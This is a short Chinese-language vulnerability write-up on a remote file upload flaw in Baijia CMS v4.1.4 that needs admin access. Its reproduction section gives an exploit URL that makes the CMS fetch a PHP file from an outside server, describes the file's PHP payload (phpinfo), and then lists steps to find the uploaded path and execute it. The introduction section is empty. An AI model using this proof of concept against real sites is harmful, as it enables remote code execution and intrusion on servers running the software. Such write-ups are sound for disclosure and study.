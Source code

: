 百家cms v4.1.4 远程文件上传漏洞
===============================

一、漏洞简介
------------

二、漏洞影响
------------

百家cms v4.1.4

三、复现过程
------------

    # 需要后台权限
    http://www.0-sec.org/index.php?mod=web&do=file&m=public&op=fetch&url=http://xx.xx.xx.xx/test/test.php

远程服务器起一个/test/test.php，内容为\*\*\<?php echo \"\<?php
phpinfo();\";\*\*

![](./resource/百家cmsv4.1.4远程文件上传漏洞/media/rId24.png)

访问payload，得到路径

![](./resource/百家cmsv4.1.4远程文件上传漏洞/media/rId25.png)

访问路径，执行代码

![](./resource/百家cmsv4.1.4远程文件上传漏洞/media/rId26.png)

查看本地文件

![](./resource/百家cmsv4.1.4远程文件上传漏洞/media/rId27.png)

参考链接
--------

> https://xz.aliyun.com/t/7542
